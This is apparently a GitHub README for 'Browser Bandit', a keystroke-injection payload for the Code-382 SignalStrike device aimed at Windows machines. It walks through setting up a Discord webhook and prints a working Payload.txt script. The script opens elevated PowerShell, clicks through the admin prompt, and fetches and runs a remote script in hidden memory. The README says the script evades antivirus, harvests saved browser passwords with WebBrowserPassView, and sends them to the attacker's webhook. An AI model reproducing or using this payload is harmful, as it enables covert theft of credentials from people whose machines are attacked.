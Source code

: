 # **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store](https://code-382.eu/index.php/product/signalstrike/))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.

```
test
```

## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

```bash
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER





test

